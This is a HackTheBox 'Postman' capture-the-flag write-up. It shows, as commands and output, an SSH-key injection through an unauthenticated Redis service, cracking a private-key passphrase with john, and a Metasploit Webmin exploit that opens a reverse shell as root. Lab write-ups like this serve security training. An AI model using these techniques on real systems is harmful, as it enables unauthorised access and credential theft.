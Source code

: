 ```yaml
---
layout: post
title: HackTheBox Postman (10.10.10.160) Writeup
description: >
  Hackthebox Postman Writeup
image: /assets/img/postman.png
---
```


Start with an Nmap scan

```
# nmap -sV -sC -T4 -p- 10.10.10.160
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-05 18:04 EST
Nmap scan report for postman (10.10.10.160)
Host is up (0.063s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.24 seconds
```
So a few ports open. First I enumerated port 80 and didn't find anything useful. Next I checked out port 10000 and once there I had to add ```postman``` to my ```/etc/hosts``` file. Once that was done I refreshed the page and was greeted with a ```webmin``` login. Now I was not able to do anything more since every exploit requires valid credentials which I don't have. Lastly, was port 6379 with redis. First I try to connect using ```telnet``` to see if the service has any sort of authentication set and turns out it doesn't. next step was to install ```redis-tools``` so I could use the ```redis-cli``` to interact with the redis service. Once that was done I was able to find an exploit where I upload my own ssh keys to the server and use that to ssh into the system.

First step is to take my ssh key and copy it to a new file but at the same time generating some random data to the beginning and end of the file
```
# (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```
Next step is to set the keys into the database. You should see and OK message
```
# cat key.txt | redis-cli -h 10.10.10.160 -p 6379 -x set bb
OK
```
Now I need to copy the ssh key into the .ssh folder but first I need to find where that is. Using the command below I see its located at ```/var/lib/redis/.ssh```.
```
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
```
Now I change into the directory
```
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
```
Then I change the name of the database to ```authorized_keys``` since this will be the name of out file. Then just save and exit.
```
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> exit
```
Now I can ssh in as the user ```redis``` from my host machine
```
# ssh -i id_rsa redis@10.10.10.160
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Nov  5 19:58:37 2019 from 10.10.14.19
redis@Postman:~$ 
```
Now doing some manual enumeration I found an ```id_rsa.bak``` file in ```/opt```. I copied this file to my host machine and saw that it was password protected. Using ```ssh2john``` I can convert the ssh key into a format that john and read and will crack the password for me.
```
# python ssh2john.py id_rsa.bak > id_rsa.hash
```
Now john cracks the hash in only a few seconds and I am given a password of ```computer2008```
```
# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:12 DONE (2019-11-05 15:33) 0.07818g/s 1121Kp/s 1121Kc/s 1121KC/sa6_123..*7¡Vamos!
Session completed
```
I tried to ssh in as the user ```Matt``` and ```root``` and niether worked so the only other thing I could think of was to use the password for the ```webmin``` login page. It ended up working as the username ```Matt``` and password ```computer2008```. Now since I have credentials, I can use one of the CVE's from earlier. I spin up metasploit and load in the module ```exploit/linux/http/webmin_packageup_rce```. After entering all the necessary info I type run and it spawns a shell. If I do a ```whoami``` I see that I am the user ```root```
```
msf5 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.14.39:4444 
[+] Session cookie: 3e1a4b0fabef10776fd267a6809f2f62
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.39:4444 -> 10.10.10.160:44420) at 2019-11-05 16:25:54 -0500

whoami
root
```
To give myself a better shell I will spawn myself a python tty shell
```
python -c 'import pty;pty.spawn("/bin/bash")'
root@Postman:/usr/share/webmin/package-updates/# cd
root@Postman:~#
```
From here I can read the user flag located at ```/home/Matt/user.txt```
```
root@Postman:~# cat /home/Matt/user.txt
517ad0ec2458ca****************
```
And the root flag from ```/root/root.txt```
```
root@Postman:~# cat root.txt
cat root.txt
a257741c5bed8be7**************
```
<br><br><br><br>
